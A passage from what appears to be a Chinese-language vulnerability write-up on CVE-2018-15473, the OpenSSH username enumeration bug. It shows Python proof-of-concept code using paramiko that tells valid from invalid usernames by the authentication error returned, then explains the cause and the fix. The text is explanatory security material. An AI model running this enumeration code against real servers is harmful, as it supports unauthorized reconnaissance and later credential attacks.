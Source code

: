     sock = socket.socket()
    try:
        sock.connect((args.hostname, args.port))
    except socket.error:
        print '[-] Failed to connect'
        sys.exit(1)

    transport = paramiko.transport.Transport(sock)
    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        print '[-] Failed to negotiate SSH transport'
        sys.exit(2)

    try:
        transport.auth_publickey(args.username, paramiko.RSAKey.generate(2048))
    except InvalidUsername:
        print '[*] Invalid username'
        sys.exit(3)
    except paramiko.ssh_exception.AuthenticationException:
        print '[+] Valid username'

这个漏洞之所以存在，是因为服务器在对消息完整解析之前，用户查询了不存在的用户名。想要修复该漏洞也很简单，按攻击逻辑反着来就行了：首先对消息进行完整解析，然后再建立通信连接。

测试漏洞利用PoC的一种方法就是在调试模式下开启OpenSSH服务器：

![](./resource/(CVE-2018-15473)OpenSSH用户枚举漏洞/media/rId24.png)
